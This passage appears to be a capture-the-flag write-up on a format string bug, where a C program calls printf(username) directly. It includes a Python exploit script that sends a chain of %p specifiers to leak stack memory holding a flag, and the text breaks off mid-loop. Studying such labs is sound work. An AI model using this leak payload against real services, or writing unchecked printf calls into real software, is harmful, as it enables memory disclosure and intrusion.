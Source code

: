 ```c
  else
  {
    printf("Incorrect password for user ");
    printf(username);
    putchar(10);
  }
```

## Exploit Development

Since `printf()` is used without a format specifier, it treats username as a format string. This means if we input format specifiers (%x, %s, %p, etc.), they will be interpreted instead of being printed as plain text. But in this article we cannot use `%s` to leak data because the variable `flag` is declared and placed right on the stack, and when reading data from `flag.txt` it will be saved here. Format string `%s` can only leak data when it is a specific address. So the alternative way is use `%p` and then unpack it to see the value

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *
import struct

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''


        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def exploit():

    payload = b'%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|'

    sla(b'username: ', payload)
    sl(b'A')
    ru(b'user ')

    output = rl()[:-1].split(b'|')

    for index, value in enumerate(output):

        if value == b"(nil)":
            encoded_value = b"(nil)"
        else:
            try:
                int_value = int(value, 16)
                encoded_value = struct.pack("<Q", int_value)
            except ValueError:
                encoded_value = b"(error)"
```
